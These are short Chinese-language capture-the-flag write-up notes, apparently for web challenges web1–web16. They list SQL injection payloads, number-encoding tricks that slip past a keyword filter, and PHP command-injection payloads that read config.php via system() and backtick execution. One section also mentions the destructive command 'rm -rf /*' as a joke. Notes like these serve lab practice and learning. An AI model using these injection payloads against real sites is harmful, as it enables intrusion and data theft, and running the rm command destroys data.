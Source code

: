 # web1
sql注入漏洞
```
select * from article where id = -1 union select * from article where id=1000 order by id limit 1
```
-1前一条select无结果，否则输出前一条的结果而不是后一条的结果。
也可
```
select * from article where id=1 or id=1000 --
```
--在sql中为注释符

# web2-7
"/or|+/i" or和+号，/i表示不区分大小写

各种解法
```
?id=CAST(0x339 AS INT)
?id=2 || id = 1000
?id=125*8
?id="1000"
?id=~~1000
?id=/**/1000
?id=0b1111101000
?id=0x3e8
?id=round(999.9)
(div)?id=500 div 0.5
```



# web8
猜密码，一顿操作，去埃塞尔比亚==程序员删库跑路
rm -rf /*

# web9
```
/?c=highlight_file("./config.php");
/?c=system('cat config.php');//结果显示在源码上，不在页面上
```

# web10
passthru() , print_r(file()) ,echo 'tac config.php'
```
/?c=print_r(file("config.php"));
/?c=echo `tac config.php`;
```

# web13
?>用于闭合前面的?,可以不用;
```
/?c=echo `tac config.php`?>
```
config.php中定义了$flag,因此可以直接echo $flag

# web 16
md5解密